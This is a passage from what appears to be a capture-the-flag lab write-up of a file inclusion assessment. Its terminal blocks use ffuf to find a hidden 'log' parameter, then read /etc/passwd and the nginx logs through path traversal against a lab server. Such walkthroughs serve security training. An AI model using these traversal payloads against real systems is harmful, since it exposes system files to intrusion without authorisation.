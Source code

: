![Firefox - Target URL 2](./assets/screenshots/file_inclusion_skills_assessment_firefox_target_url_2.png)

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-mbwjlmd8nk]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?FUZZ=value' -fs 2035

[SNIP]

log                     [Status: 200, Size: 2046, Words: 150, Lines: 102, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?log=FUZZ' -fs 2046

[SNIP]

../../../../../etc/passwd [Status: 200, Size: 3269, Words: 152, Lines: 130, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../FUZZ/index.php' -fs 2046

[SNIP]

var/www/html/           [Status: 200, Size: 17875, Words: 3584, Lines: 502, Duration: 17ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux

[SNIP]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.248.180:59877/ilf_admin/index.php?log=../../../../../FUZZ' -fs 2046

[SNIP]

/var/log/nginx/error.log [Status: 200, Size: 5126271, Words: 502561, Lines: 8313, Duration: 34ms]
/var/log/nginx/access.log [Status: 200, Size: 6003067, Words: 636706, Lines: 42492, Duration: 52ms]
```
